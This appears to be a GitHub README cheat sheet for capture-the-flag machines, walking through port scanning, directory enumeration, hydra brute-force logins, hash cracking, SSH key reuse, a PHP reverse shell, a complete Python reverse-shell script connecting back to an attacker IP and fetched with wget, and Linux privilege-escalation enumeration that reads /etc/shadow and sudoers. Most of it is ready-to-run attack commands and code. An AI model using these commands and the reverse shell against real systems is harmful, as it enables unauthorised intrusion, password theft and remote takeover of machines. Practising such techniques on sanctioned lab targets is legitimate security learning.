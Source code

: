# SCANNING
> First of all, let's scan the open ports and their versions.

```
nmap -A -p- -T4 [Target IP Address] -oN [../nmapresult.txt]
```
> How many ports open?
```
nmap -vvv [Target IP Address]
```
> What vulnerabilities exist in this machine?
```
nmap -p- --script vuln [Target IP Address]
```
<br>
<br>

> If Apache2 or any web server is running;
> First, let's find the folders on the server.

```
dirb http://[Target IP Address]
```
> Or let's try alternative scanning methods.

```
gobuster dir -u http://[Target IP Address] -w [../dirbuster/wordlist.txt]
nikto -h [Target IP Address]
```
> After the scans are completed, the web server (if any) is visited and all information is collected:
<br>

# BRUTE FORCE
> Let's try to crack the usernames we found with a brute force attack.

```
hydra -l [Username We Found] -P [../wordlist.txt] [Whichever Port is Open]://[Target IP Address]
hydra -l [Username We Found] -P [../wordlist.txt] http-post-form "[HTTP Post Form]" -v
hydra -l [../Userlist.txt] -P [../wordlist.txt] [Target IP Address] [Whichever Port is Open]://[Target IP Address]
```
> For example:

```
hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10
hydra -l james -P /home/kali/Downloads/givenbyctf.txt http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -v
hydra -l /home/kali/Documents/CTF's/attactive-directory/userlist.txt -P /usr/share/wordlists/fasttrack.txt 10.10.10.10 ssh://10.10.10.10
```
<br>
<br>

> If WordPress:
```
wpscan --url [Target IP Address] --passwords [../wordlist.txt] --usernames [Admin Username]
```
> If we see something encrypted:
```
john [../hash.txt] --wordlist=[../wordlist.txt]
john --format=[Format of the Hash] [../hash.txt]
```
> If something is hidden inside the image file (like steganography):
```
strings [../file.png]
stegcracker [../file.jpg] [../wordlist.txt]
steghide extract -sf [../file.jpg]
binwalk [../file.jpg]
binwalk --run-as=root [../file.jpg] -e
```
> If we haven't made much progress with the brute force attack, but we have an id_rsa:
<br>

# GAINING ACCESS TO LINUX WITH SSH_KEY
> For SSH key to work:
```
chmod 600 [Key]
```
> Connection with SSH key:
```
ssh [Username]@[Target IP Address] -i [Key]
```
> If it asks us for a password:
```
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=[../wordlist.txt]
```
> And, repeat the above.
> If there is still no gaining access, we can try a pHp reverse shell on the web server.
<br>

# PHP REVERSE SHELL
> First, open the php document. (If you search for this php file as php-reverse-shell, you will see many examples.)
```
nano ../php-reverse-shell.php
```
> And edit the file. If you see "change $ip= " in the file, enter your own machine's IP address there. If you are connected to sites such as tryhackme via VPN, enter the IP address you are connected to.
> Let's open another terminal on us own machine and start listening to the port written in the php-reverse-shell.php file:
```
nc -nvlp [Port]
```
> Run php-reverse-shell.php on the website. For example:
```
http://[Target Website]/uploads/php-reverse-shell.php
```
> If we have gained access to the port we are listening to via Netcat, but the Linux commands we are used to are not working, let's check whether this is Python.
```
print("cozuxhub")
```
> If we have seen any text we wrote in the print command as output, it is time to open a shell:
<br>

# PYTHON SHELL
> To open terminal:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> If it doesn't work, do this first:
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
> Or, create a document.py in the /var/www/html on your machine and type this:
```
        import socket
        import subprocess
        import os

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.0.2.4",5555))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])
```
> We first need to start the Apache2 server on we own machine.
```
service apache2 start
```
> Go to target machine and copy this file from we apache2 server.
```
wget http://[Your IP Address]/[document.py]
```
> Let's run this python file on our target machine.
```
python document.py
/usr/bin/python document.py
```
> If we are now a user on the target machine but do not have sufficient privileges, next is privilege escalation.
<br>

# LINUX PRIVILEGE ESCALATION
> First of all, get informaton from the machine.
```
whoami
id
uname -a
cat /proc/version
cat /etc/issue
cat /etc/shadow
cat /etc/passwd
cat /etc/sudoers
cat /etc/crontab
ps aux
ifconfig
locate password
find / -name password 2>/dev/null
find . type f -exec grep -i -I "PASSWORD" {} /dev/null \;
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> Shows the commands of the user before you:
```
history
```
> Shows what the current user can do:
```
find / -perm -u=s -type f 2>/dev/null
```
> Shows the commands:
```
ls -la /usr/bin
```
> Let's see which commands can run without root:
```
sudo -l
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> From here, we are likely to encounter thousands of possibilities. Since each machine has a different vulnerability, we must do our own research after the basic operations.
